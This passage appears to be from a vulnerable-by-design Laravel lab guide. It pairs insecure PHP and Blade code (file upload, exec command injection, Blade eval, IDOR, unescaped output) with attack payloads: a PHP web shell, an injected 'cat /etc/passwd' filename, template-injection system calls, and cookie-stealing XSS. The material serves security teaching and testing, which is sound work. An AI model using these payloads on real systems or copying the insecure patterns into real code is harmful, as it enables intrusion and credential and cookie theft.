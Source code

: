 ### 3. Insecure File Upload
```php
public function upload(Request $request) {
    $file = $request->file('document');
    $file->move(public_path('uploads'), $file->getClientOriginalName());
}

// Attack - Upload PHP shell
shell.php: <?php system($_GET['cmd']); ?>
Access: http://localhost:8094/uploads/shell.php?cmd=whoami
```

### 4. Command Injection
```php
public function backup() {
    $filename = request('filename');
    exec("tar -czf backups/$filename.tar.gz storage/");
}

// Attack
http://localhost:8094/backup?filename=test.tar.gz; cat /etc/passwd > public/leaked.txt; echo done
```

### 5. Blade Template Injection
```php
// Unsafe compilation
$template = request('template');
$compiled = Blade::compileString($template);
eval('?>' . $compiled);

// Attack
{{ system('whoami') }}
{!! exec('cat /etc/passwd') !!}
@php(system('ls -la'))
```

### 6. Insecure Direct Object Reference (IDOR)
```php
public function downloadInvoice($id) {
    // No authorization check
    return Invoice::findOrFail($id)->download();
}

// Attack
http://localhost:8094/invoices/1/download
http://localhost:8094/invoices/2/download
```

### 7. Cross-Site Scripting (XSS)
```blade
<!-- Unsafe output -->
<div>{!! $user->bio !!}</div>
<div>{{ $comment->text }}</div> <!-- If e() is disabled -->

<!-- Attack -->
<script>alert(document.cookie)</script>
<img src=x onerror="fetch('/api/steal?c='+document.cookie)">
```
